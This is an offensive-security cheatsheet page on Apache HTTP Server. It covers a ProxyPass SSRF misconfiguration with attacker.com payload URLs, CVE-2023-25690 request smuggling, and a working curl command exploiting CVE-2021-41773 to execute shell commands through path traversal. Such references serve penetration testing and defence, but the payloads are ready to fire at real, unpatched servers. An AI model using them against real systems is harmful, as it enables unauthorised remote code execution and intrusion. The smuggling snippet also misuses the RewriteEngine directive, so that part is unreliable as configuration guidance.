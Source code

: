 ```yaml
---
title: "Apache"
description: "Cheatsheet on Apache HTTP"
lead: "Cheatsheet on Apache HTTP"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "framework"
weight: 620
toc: true
---
```


## Apache

[Apache HTTP](https://httpd.apache.org/) is a widely-used open-source web server software. It provides HTTP server functionality and supports customizable modules. It's maintained by the Apache Software Foundation.

## Misconfiguration

### SSRF - ProxyPass & No ending slash

No ending slash at the end of the `ProxyPass` directive allow an SSRF attack.

```xml
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>
  ServerName victim.com
  ProxyPass / http://example.com
</VirtualHost>
```

- `http://victim.com/@attacker.com/`
- `http://victim.com/.attacker.com/`

## Vulnerabilities

### CVE-2023-25690 - Request Smuggling

- Version: `2.4.0-55`

```bash
RewriteEngine "^/here/(.*)" "http://example.com:8080/elsewhere?$1";
RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1";
```

### CVE-2021-41773 - Path Traversal & Potential RCE

- Version: `2.4.49`

```bash
$ curl 'http://localhost/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'echo Content-Type: text/plain; echo; id'
```

## Resources

- [weird_proxies / Apache](https://github.com/GrrrDog/weird_proxies/blob/master/Apache.md)
- [Apache HTTP Server 2.4 vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)